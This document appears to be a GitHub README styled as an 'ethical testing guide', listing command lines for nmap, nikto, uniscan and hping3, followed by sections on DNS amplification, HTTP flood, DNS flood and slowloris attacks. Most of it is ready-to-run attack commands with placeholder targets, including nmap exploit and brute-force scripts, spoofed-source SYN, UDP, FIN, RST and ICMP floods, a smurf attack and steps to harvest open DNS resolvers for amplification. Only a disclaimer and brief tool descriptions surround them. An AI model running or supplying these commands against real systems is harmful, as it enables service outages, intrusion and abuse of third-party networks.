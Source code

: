# This is an Ethical Testing Guide

The following Guid includes commands in the following:

* #### `nmap`

* #### `nikto`

* #### `uniscan`

* #### `hping3`


***
Author has submitted the code for educational purposes only. Author doesn't hold any responsibility for wrong usage of this intellectual property! 

```diff
-  NEVER PERFORM ETHICAL HACKING WITHOUT THE WRITTEN PERMISSION FROM THE PRODUCT OWNER, YOU HAVE BEEN WARNED!
```
***

## Nmap

Nmap is a security scanner, originally written by Gordon Lyon, used to discover hosts and services on a computer network, thus building a "map" of the network.


| Test Case | Command |
| :--- | :--- |
| Scan the target for vulnerabilities | `nmap -Pn --script vuln <target.com>` | 
| Actively exploit detected vulnerabilities | `nmap --script exploit -Pn <target.com` |
| Brute Force Passwords | `nmap --script brute -Pn <target.com>` |
| Test if target is vulnerable to DoS | `nmap --script dos -Pn <target.com>` |

## Nikto

Nikto Web Scanner is a Web server scanner that tests Web servers for dangerous files/CGIs, outdated server software and other problems. It performs generic and server type specific checks. It also captures and prints any cookies received

| Test Case | Command |
| :---  | :--- |
| SQL Injection | `nikto -Tuning 9 -h <target.com>` |
| DoS Check | `nikto -Tuning 6 -h <target.com>` |
| Perform check on suspicious files, misconfiguration leaks, etc. | `nikto -Display 1234EP -o report.html -Format htm -Tuning 123bde -host <target.com>` |

## Uniscan

Uniscan is a simple Remote File Include, Local File Include and Remote Command Execution vulnerability scanner.

| Test Case | Command |
| :---  | :--- |
| Perform file checks | `uniscan -u <target.com> -w` |
| Perform `robots.txt` and `sitemap.xml` checks | `uniscan -u <target.com> -e` |
| Perform Dynamic Check | `uniscan -u <target.com> -d` |
| Perform Static Check | `uniscan -u <target.com> -s` |
| Perform Stress Check | `uniscan -u <target.com> -r` |

## Hping3 

*Additional reading prior to performing actions below is strongly recommended! You have been warned!

hping is a command-line oriented TCP/IP packet assembler/analyzer. The interface is inspired to the ping(8) unix command, but hping isn’t only able to send ICMP echo requests. It supports TCP, UDP, ICMP and RAW-IP protocols, has a traceroute mode, the ability to send files between a covered channel, and many other features.

| Test Case | Command |
| :--- | :---  | 
| Check whether a host is alive (when PING is blocked) - sends an RST response | `hping3 -c 2 -V -p 80 -s 5050 -a <target.com>` |
| Perform DoS attack | `hping3 -c 20000 -d 120 -S -w 64 -p TARGET_PORT --flood --rand-source TARGET_SITE` |
| UDP flood | `hping3 --flood --rand-source --udp -p TARGET_PORT TARGET_IP` |
| TCP FIN flood | `hping3 --flood --rand-source -F -p TARGET_PORT TARGET_IP` |
| TCP RST flood | `hping3 --flood --rand-source -R -p TARGET_PORT TARGET_IP` |
| PUSH and ACK floods | `hping3 --flood --rand-source -PA -p TARGET_PORT TARGET_IP` |
| ICMP and IGMP floods | `hping3 --flood --rand-source -1 -p TARGET_PORT TARGET_IP` |
| Smurf attack | `hping3 --icmp --spoof TARGET_IP BROADCAST_IP` |

***
```diff
- Additional studying and training is recommended below this point
```
***

## DNS Amplification

You need to have a recursive DNS server which has a karge file on the cache. You are supposed to use
<a href="https://www.infosec-ninjas.com/tsunami">Tsunami</a>

Example of the attack can be as follows:

`./tsunami -o recursive_dns.txt -1 4 -e 172.0.0.0/8`

Then it's possible to attack the target with using these DNS Servers as an amplifier:

`./tsunami -s TARGET_IP -n pentest.blog -p 3 -f recursive_dns.txt`

Where <br/>
`-s` is the target IP address <br/>
`-n` optional doman name to probe <br/>
`-f` the open recursive DNS servers file for the attack <br/>
`-p` number of packets to be sent per DNS server <br/>

## HTTP Flood

HTTP flood is the most common attack that targeting application layer. It’s more difficult to detect than network layer attacks because requests seem to be legitimate. Since the 3-way handshake has already been completed, HTTP floods are fooling devices and solutions which are only examining layer 4.

You will need <a href="https://github.com/grafov/hulk/blob/master/hulk.py">HULK</a> for this:

`python hulk.py -site TARGET_SITE`

## DNS Flood

Domain Name System(DNS) is the protocol used to resolve domain names into IP addresses.

Like other flood attacks, the aim of DNS flood attacks is sending high-volume DNS requests to the DNS application protocol. The DNS server overwhelmed and unable to process all of the legitimate requests from other users.

You will need <a href="https://sourceforge.net/projects/netstressng/">netstress</a>:

`netstress.fullrandom -d TARGET_DNS_SERVER -a dns -t a -n 4 -P 53`

Where: <br/>
`-d` is the destination address <br/>
`-a` is the type of attack <br/>
`-t` is the type of DNS query <br/>
`-n` is the number of processes <br/>
`-P` is the destination port

## Low and Slow Attacks

Unlike floods, low and slow attacks do not require a huge amount of data traffic. These types of attacks target application or server resources.

They are hard to detect because the traffic appears to occur at normal rates and legitimate.

My favorite tool is <a href="https://github.com/llaera/slowloris.pl">slowloris</a>:

| Steps | Command |
| :--- | :--- |
| Start an attack | `./slowloris.pl -dns TARGET_URL` |
| Change the port | `./slowloris.pl -dns TARGET_URL -port 80 -num 200` |
| Change Timeout value | `./slowloris.pl -dns TARGET_URL -port 80 -num 200 -timeout 30` |
| Attack an HTTPS website | `./slowloris.pl  -dns TARGET_URL -port 443 -timeout 30 -num 200 -https` |


```diff
+ You are encouraged to make pull requests and add more tools
``` 
